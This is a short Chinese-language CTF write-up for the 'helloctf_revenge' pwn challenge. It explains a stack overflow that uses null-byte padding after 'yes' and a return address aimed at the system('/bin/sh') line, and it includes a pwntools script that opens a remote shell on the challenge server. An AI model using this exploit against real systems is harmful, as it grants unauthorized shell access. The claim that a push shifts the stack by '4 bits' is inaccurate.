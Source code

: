 # helloctf_revenge

這題沿用`helloctf`的思路，要執行到`main`函式最後的 ret 才會將`stack`頂端的執行位置移到`$rdi`。

## 難處

1. 輸入不能超過 16 個字元。
2. 會判斷輸入是否為剛剛好為"yes"。
3. `magic`函式裡用的是`system("/bin/sh")`，會有執行時`stack`裡記憶體位置要`address % 16 == 0`的要求，所以不能直接導向函式的頭，因為 push 會使得`stack`變動 4 bits。

## 解法

1. 判斷 string 結束會有一個`'\0'`。
2. `system("/bin/sh")`解決方法是將 `main`裡 ret 時直接指向`system("/bin/bash")`那行，而不是指向`magic`函式的頭。

## 程式碼

先用 for 迴圈爆出 `'\0'` 要幾個字元會 overflow 到蓋過目標`stack`，得 21 個

```python
from pwn import *

r = remote("ctf.adl.tw", 10000)

r.recvuntil("Do you like VTuber?")
r.sendline(flat("yes", "\0" * 21, p64(0x40123B)))

r.interactive()
```

